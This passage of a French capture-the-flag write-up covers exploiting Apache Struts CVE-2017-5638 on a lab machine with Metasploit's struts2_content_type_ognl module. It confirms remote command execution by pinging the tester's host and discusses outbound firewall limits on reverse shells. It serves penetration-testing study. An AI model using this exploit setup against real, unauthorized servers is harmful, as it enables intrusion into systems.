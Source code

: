On devine un clin d’œil au hack de la société *Equifax*. Cette dernière a été victime d'une intrusion médiatisée via l'exploitation de la faille dans Struts [CVE-2017-5638](https://www.cvedetails.com/cve/CVE-2017-5638/).  

On s'empresse alors d'utiliser le module *Metasploit* correspondant mais malgré plusieurs payloads de reverse shell utilisés force est de constater qu'on est plutôt limité.  

Pourtant l'exécution de commande fonctionne car on si on se ping on peut voir les messages nous parvenir :  

```plain
msf exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting                        Required  Description
   ----       ---------------                        --------  -----------
   Proxies                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.10.10.64                            yes       The target address
   RPORT      8080                                   yes       The target port (TCP)
   SSL        false                                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /Monitoring/example/HelloWorld.action  yes       The path to a struts application action
   VHOST                                             no        HTTP server virtual host

Payload options (cmd/unix/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD                    yes       The command string to execute

Exploit target:

   Id  Name
   --  ----
   0   Universal

msf exploit(multi/http/struts2_content_type_ognl) > set CMD "ping -c 3 10.10.14.209"
CMD => ping -c 3 10.10.14.209
msf exploit(multi/http/struts2_content_type_ognl) > exploit
[*] Exploit completed, but no session was created.
```

On est de tout évidence en présence de règles de pare feu assez strictes concernant le trafic sortant :( (et entrant puisque les ports non ouverts sont filtrés)  

UDP semble fonctionner à moitié... c'est à dire que si on utilise le payload de reverse shell UDP via socat (proposé par *Metasploit*) alors on obtient l'invite de commande... puis plus rien.  

Cette fois il semble que seul le trafic sortant soit autorisé pour UDP : UDP étant un protocole *non connecté*, si on tente d'envoyer une commande il est considéré comme une nouvelle communication (et non comme partie d'une communication existante).  
